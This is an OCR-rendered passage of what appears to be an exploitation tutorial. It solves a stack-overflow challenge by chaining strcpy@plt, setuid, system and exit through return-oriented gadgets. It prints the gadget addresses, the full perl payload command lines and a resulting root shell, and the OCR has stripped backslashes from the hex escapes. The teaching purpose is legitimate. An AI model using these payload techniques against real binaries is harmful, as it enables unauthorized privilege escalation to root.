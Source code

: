 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
**\[1\] Now that we’ve been fighting all this time with null bytes, I’ll tell you a secret: to put on the stack a null byte (either to be an argument of a function or to pick a pop, ret in a register in order to make a ret2syscall) functions can be used as str(n) -byte to byte-, memcpy (), sprintf () …**

I have not mentioned so far to develop well other techniques. In the end it comes down to having resources.

Let’s see the solution of yesterday’s challenge:

0x0804843c 0x00
08048370 <strcpy@plt>:

$1 = {<text variable, no debug info>} 0xf7e84d60 <setuid>  
$2 = {<text variable, no debug info>} 0xf7e01f80 <system>  
$3 = {<text variable, no debug info>} 0xf7df4f10 <exit>

0xf7f420a8 : /bin/sh

8048590: 5b pop ebx  
8048591: 5e pop esi  
8048592: 5f pop edi  
8048593: 5d pop ebp  
8048594: c3 ret

We built a scheme like this  
``/home/arget/vuln "`perl -e 'print "A"x140 . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x60x4dxe8xf7" . "x93x85x04x08" . "xefxbexadxde" . "x80x1fxe0xf7" . "x10x4fxdfxf7" . "xa8x20xf4xf7"'`"``

By ltrace we see the beginning of buffer, to which we add 140 + 18 \* 4 and get the address where the 0xdeadbeef we have placed will be the argument of setuid(), so as to adjust the directions in writing strcpy().

Finally we exploit  
``$ /home/arget/vuln "`perl -e 'print "A"x140 . "x70x83x04x08" . "x92x85x04x08" . "x94xd2xffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "x95xd2xffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "x96xd2xffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "x97xd2xffxff" . "x3cx84x04x08" . "x60x4dxe8xf7" . "x93x85x04x08" . "xefxbexadxde" . "x80x1fxe0xf7" . "x10x4fxdfxf7" . "xa8x20xf4xf7"'`"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp???????<?p???????<?p???????<?p???????<?`M????ﾭ? ?? O??? ?  
sh-4.4# whoami  
root  
sh-4.4#``

Much of my goal today is to demonstrate how there are many possible solutions to any problem, and although not always all roads lead to Rome, several other will, and have to choose which one feels more comfortable. In addition, these techniques are not the only thing that can be used, and sometimes there is nothing to do with them, to avoid panic is necessary that the exploiter has resources and completely open mind, accompanied by a splendid creativity and well-trained . Hence the name of this post, what you know about exploiting you will not do any good without proper creativity, it is also important to complement the experience gained from others’ experiences, the end of the day the soul of hacking is to share knowledge, so it is important to read carefully engage outside challenges of everyday solutions. I remember a post of blackngel (his blog [_blackbycode.com_](https://web.archive.org/web/20170920042316/http:/blackbycode.com/) has been deleted, so I can not bring reference, well, maybe be in archive.org :)) which to place on record eax a certain value, he used a call to read() (which returns the number of bytes read), thus introducing the right amount of bytes get read () return value in eax desired.

```
